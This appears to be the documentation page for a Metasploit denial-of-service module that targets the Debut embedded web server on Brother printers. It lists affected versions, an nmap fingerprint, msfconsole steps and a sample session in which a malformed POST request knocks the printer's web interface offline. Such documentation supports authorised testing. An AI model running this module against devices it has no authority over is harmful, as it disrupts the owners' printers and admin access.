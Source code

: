 ## Vulnerable Application

  Version <= 1.20 of the Debut embedded httpd web server are vulnerable, which are found on Brother printers.
  This module was successfully tested against a Brother HL-L2380DW series.

  An nmap version scan of the vulnerable service should look similar to:
  `80/tcp open  http    Debut embedded httpd 1.20 (Brother/HP printer http admin)`.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/dos/http/brother_debut_dos```
  3. Do: ```set rhost [ip]```
  4. Do: ```run```
  5. You should see Success, and manual attempts to browse the web interface don't load.

## Scenarios

### Brother HL-L2380DW with Debut embedded 1.20

```
[*] Processing brother.rb for ERB directives.
resource (brother.rb)> use auxiliary/dos/http/brother_debut_dos
resource (brother.rb)> set rhost 192.168.2.126
rhost => 192.168.2.126
resource (brother.rb)> exploit
[*] Sending malformed POST request at 2017-12-29 13:46:34.  Server will recover about 2017-12-29 13:51:34
[+] 192.168.2.126:80 - Connection Refused: Success!
[*] Auxiliary module execution completed
```
